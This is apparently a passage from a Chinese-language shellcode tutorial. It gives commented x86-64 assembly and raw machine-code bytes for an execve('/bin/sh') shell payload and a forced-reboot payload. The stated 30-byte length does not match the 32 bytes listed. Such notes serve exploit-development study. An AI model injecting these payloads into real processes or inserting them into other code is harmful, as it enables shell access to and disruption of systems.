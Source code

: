 得到 `68732f6e69622f2f`

```
global _start
section .text
_start:
	xor rax,rax 	;rax=0,栈上压入一个 0x00，用来截断 /bin/sh
	push rax		;rax入栈
	mov rdx,rsp		;rdx=0
	mov rbx,0x68732f6e69622f2f	;将"//bin/sh"传给rbx
	push rbx		;rbx入栈，即"//bin/sh"入栈
	mov rdi,rsp		;将"//bin/sh"传给rdi
	push rax		;rax入栈,这里再次 push 的 rax 作为截断
	push rdi		;
	mov rsi,rsp		
	add rax,59		;系统调用号是 59，最后加一个 syscall
	syscall
```

提取机器码  **30字节**

```
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```

## 2.重启  reboot

### 1.使用execve("/usr/sbin/reboot", ["/usr/sbin/reboot"], NULL)  

| rax  |        rdi         |         rsi          | rdx  |
| :--: | :----------------: | :------------------: | :--: |
|  59  | '/usr/sbin/reboot' | ['/usr/sbin/reboot'] | NULL |

```
global _start
section .text
 
_start:
	; execve("/usr/sbin/reboot", ["/usr/sbin/reboot"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '/usr/sbin/reboot', rsi = '/usr/sbin/reboot'
	xor		rdx, rdx
	push  	rdx
	mov		rbx, 'n/reboot'
	push		rbx
	mov 	rbx, '/usr/sbi'
	push 		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```
